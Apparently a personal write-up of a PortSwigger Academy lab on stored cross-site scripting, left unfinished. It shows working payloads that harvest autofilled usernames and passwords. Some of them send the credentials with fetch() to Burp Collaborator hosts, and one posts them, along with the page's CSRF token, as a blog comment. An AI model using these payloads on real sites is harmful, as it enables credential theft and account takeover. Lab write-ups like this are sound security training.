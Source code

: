 # Lab: Exploiting cross-site scripting to capture passwords

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

**NOTE**

*To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.*

*Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the credentials.*

# Step 1 Find XSS vuln in comments function:

Adding a POC payload into a blog-post comment:

![image](https://user-images.githubusercontent.com/83407557/210614348-97de9160-9930-4c86-bfea-04c84d9521cc.png)

When I go back and view my comment, the page tries to print, verifying XSS:

![image](https://user-images.githubusercontent.com/83407557/210614535-9b0d9049-b482-451b-9375-3cc82d9e31b4.png)

# Step 2 Create a password stealing XSS payload

First I need to grab my collaborator's URL:

![image](https://user-images.githubusercontent.com/83407557/210614710-a6c10114-64e1-452b-a59d-bb52087ad3b4.png)

`c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com`

Then I craft an XSS payload with this URL:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('c3gtx1iww0cl1k1q6psn1ue43v9mxel3.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# Step 3 use payload in a comment

![image](https://user-images.githubusercontent.com/83407557/210622864-cd81f60d-2a5c-4669-87f0-65a4e901fb36.png)

# Step 4 poll collaborator

Not getting anything, perhaps oastify.com is being blocked. Trying a new payload:

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('c3gtx1iww0cl1k1q6psn1ue43v9mxel3.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
![image](https://user-images.githubusercontent.com/83407557/210623680-66df2f4a-1f80-48e9-b289-35da34140c85.png)

# Step 5 Force a blog comment

Since I am not able to get a callback to collaborator, I will try another method, which will force a blog comment containing the info I need for anyone that views my comment:

```html
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://0ab300de03d7735cc15f3ae80042009b.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=victem&email=hermh4cks%40gmail.com&website='
        });
    }, 2500);
};
</script>
```

![image](https://user-images.githubusercontent.com/83407557/210628469-fc659c16-a253-4fc7-90b7-721ec1b1a2b1.png)


Still having issues...come back later


